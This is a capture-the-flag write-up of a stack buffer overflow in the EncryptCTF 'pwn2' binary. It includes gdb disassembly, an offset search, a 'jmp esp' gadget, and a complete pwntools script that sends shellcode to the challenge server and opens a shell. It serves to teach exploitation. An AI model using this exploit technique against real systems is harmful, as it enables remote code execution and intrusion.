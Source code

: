 ## EncryptCTF: pwn2
##### *tl;dr: buffer overflow to execute shellcode*
#### In this challenge, we take advantage of another vulnerable gets function which allows us to overwrite the instruction pointer. While doing this, I have learned a new tool called a ```ROP_gadget``` to jump to the stack and run our shellcode. Before we head onto that, we perform a security measures recon:
```
$ checksec pwn2
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
#### We see that there is no canary and the NX bit for the stack is disabled. Before we head on to disassemble the binary, let's have a test run at it:
```
$ ./pwn2
$ ls
pwn2
Bye!

$ ./pwn2
$ cat *
bash: command not found: cat *
Bye!

$ ./pwn2
$ cd ..
bash: command not found: cd ..
Bye!
```
#### We see that it gives us a shell, but we can only execute ls and no other commands. To have a better understanding for our would be exploit, let's analyze the binary through gdb and examine the functions:
```
$ gdb ./pwn2
  gdb-peda$ info functions
    [...]
    0x0804852d  run_command_ls
    0x08048541  lol
    0x08048548  main
```
#### We see here some interesting functions such as lol and run_command_ls. Let's disassemble the main function first:
```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048548 <+0>:	  push   ebp
   0x08048549 <+1>:	  mov    ebp,esp
   0x0804854b <+3>:	  and    esp,0xfffffff0
   0x0804854e <+6>: 	sub    esp,0x30
   0x08048551 <+9>:	  mov    eax,ds:0x804a040
   0x08048556 <+14>:	mov    DWORD PTR [esp+0xc],0x0
   0x0804855e <+22>:	mov    DWORD PTR [esp+0x8],0x2
   0x08048566 <+30>:	mov    DWORD PTR [esp+0x4],0x0
   0x0804856e <+38>:	mov    DWORD PTR [esp],eax
   0x08048571 <+41>:	call   0x8048420 <setvbuf@plt>
   0x08048576 <+46>:	mov    DWORD PTR [esp],0x8048673
   0x0804857d <+53>:	call   0x80483c0 <printf@plt>
   0x08048582 <+58>:	lea    eax,[esp+0x10]
   0x08048586 <+62>:	mov    DWORD PTR [esp],eax
   0x08048589 <+65>:	call   0x80483d0 <gets@plt>
   0x0804858e <+70>:	mov    DWORD PTR [esp+0x4],0x8048670
   0x08048596 <+78>:	lea    eax,[esp+0x10]
   0x0804859a <+82>:	mov    DWORD PTR [esp],eax
   0x0804859d <+85>:	call   0x80483b0 <strcmp@plt>
   0x080485a2 <+90>:	test   eax,eax
   0x080485a4 <+92>:	jne    0x80485ad <main+101>
   0x080485a6 <+94>:	call   0x804852d <run_command_ls>
   0x080485ab <+99>:	jmp    0x80485c1 <main+121>
   0x080485ad <+101>:	lea    eax,[esp+0x10]
   0x080485b1 <+105>:	mov    DWORD PTR [esp+0x4],eax
   0x080485b5 <+109>:	mov    DWORD PTR [esp],0x8048676
   0x080485bc <+116>:	call   0x80483c0 <printf@plt>
   0x080485c1 <+121>:	mov    DWORD PTR [esp],0x8048693
   0x080485c8 <+128>:	call   0x80483e0 <puts@plt>
   0x080485cd <+133>:	mov    eax,0x0
   0x080485d2 <+138>:	leave  
   0x080485d3 <+139>:	ret    
End of assembler dump.

gdb-peda$ disas run_command_ls 
Dump of assembler code for function run_command_ls:
   0x0804852d <+0>:	push   ebp
   0x0804852e <+1>:	mov    ebp,esp
   0x08048530 <+3>:	sub    esp,0x18
   0x08048533 <+6>:	mov    DWORD PTR [esp],0x8048670
   0x0804853a <+13>:	call   0x80483f0 <system@plt>
   0x0804853f <+18>:	leave  
   0x08048540 <+19>:	ret    
End of assembler dump.
```
#### We see interesting calls such as our vulnerable entry point, gets. After we input something, it is run through an ```strcmp``` call which compares if our input is equal to the string ```ls```, if it is then it proceeds to call the function run_command_ls which basically just executes the ls command in the shell. To begin our exploit, we first find an offset which we can overflow the buffer - and we can do a pattern create for this:
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

gdb-peda$ r
$ AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[...]
EIP: 0x41414641 ('AFAA')
Stopped reason: SIGSEGV
0x41414641 in ?? ()

gdb-peda$ pattern offset AFAA
AFAA found at offset: 44
```
#### We found out that we can overflow the buffer and be able to overwrite the instruction pointer with offset 44. After this, we'd want to jump to the stack. We can simply put a breakpoint in main, run it, and get the esp register but we'll be implementing what we have learned. There's still one function we didn't disassemble, lol:
```
gdb-peda$ disas lol
Dump of assembler code for function lol:
   0x08048541 <+0>:	push   ebp
   0x08048542 <+1>:	mov    ebp,esp
   0x08048544 <+3>:	jmp    esp
   0x08048546 <+5>:	pop    ebp
   0x08048547 <+6>:	ret    
End of assembler dump.
```
#### Now were talking, at address ```0x08048544``` is a ```rop_gadget```, we see a ```jmp esp``` instruction which if we execute, will point us into the stack where we can place our shellcode. We can also get our rop gadget with the ROPgadget utility:
```
$ ROPgadget --binary ./pwn2 --only "jmp"
Gadgets information
============================================================
0x08048544 : jmp esp

Unique gadgets found: 1
```
#### We can now jump to this address and place our shellcode in the stack. The shellcode which we'll be using will be the ones from pwntools. Now that we have everything we need, we proceed to create our exploit script.
##### exploit.py
```
from pwn import *

#: Connect to challenge server
HOST = '104.154.106.182'
PORT = 3456
p = remote(HOST,PORT)
print(p.recv())

#: Exploit code
offset = 'A' * 44
jmp_esp = p32(0x08048544)
shellcode = asm(shellcraft.sh())
exploit = offset + jmp_esp + shellcode

#: Send payload
p.sendline(exploit)
print(p.recv())
p.interactive()
```
#### We can now run our exploit, interact with our shell, and get the flag! :)
```
$ python exploit.py
[+] Opening connection to 104.154.106.182 on port 3456: Done
$ 
bash: command not found: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAD\x85\x0jhh///sh/bin\x89�h\x814$ri1�Qj\x04Y�Q��1�j\x0bX̀
Bye!

[*] Switching to interactive mode
$ ls
flag.txt
pwn2
$ cat flag.txt
encryptCTF{N!c3_j0b_jump3R}
```



